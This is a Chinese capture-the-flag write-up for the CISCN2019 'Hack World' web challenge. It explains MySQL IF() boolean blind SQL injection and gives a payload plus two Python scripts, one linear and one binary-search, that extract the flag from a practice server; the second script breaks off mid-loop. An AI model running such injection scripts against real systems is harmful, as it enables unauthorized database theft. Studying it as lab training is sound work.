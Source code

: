 
---
# *[CISCN2019 华北赛区 Day2 Web1]Hack World

- 考点：if 三目运算 盲注脚本

给了表和列：

![](https://img-blog.csdnimg.cn/2021042217161069.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
开局一个框，经过测试，只有两句话

Hello, glzjin wants a girlfriend.
Do you want to be my girlfriend?

应该是盲注

`If语句`：IF 表达式
```
 IF( expr1 , expr2 , expr3 )
 expr1 的值为 TRUE，则返回值为 expr2 
 expr1 的值为FALSE，则返回值为 expr3
```

![](https://img-blog.csdnimg.cn/20210422171719772.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


那也就是判断条件我们是可控的：

payload：
```
id=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,2)
```
如果为真就返回 Hello, glzjin wants a girlfriend.

写个脚本跑一下：

```python
import requests

url='http://82d7b211-c877-4380-a07d-38a2fb1db493.node3.buuoj.cn/index.php'
asc_str = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_"
flag=''
for i in range(50):
    for j in asc_str:
        data={"id":"if(ascii(substr((select(flag)from(flag)),{},1))=ascii('{}'),1,2)" .format(i,j)}
        c=requests.post(url,data)
        if 'Hello' in c.text:
            flag+=j
            print(flag)
```

二分法脚本：

```python
import requests
import time

url = "http://be7c3bbe-f847-4c30-bfbd-baa005a54773.node3.buuoj.cn/index.php"
payload = {
   "id" : ""
}
result = ""
for i in range(1,100):
   l = 33
   r =130
   mid = (l+r)>>1
   while(l<r):
      payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
      html = requests.post(url,data=payload)
```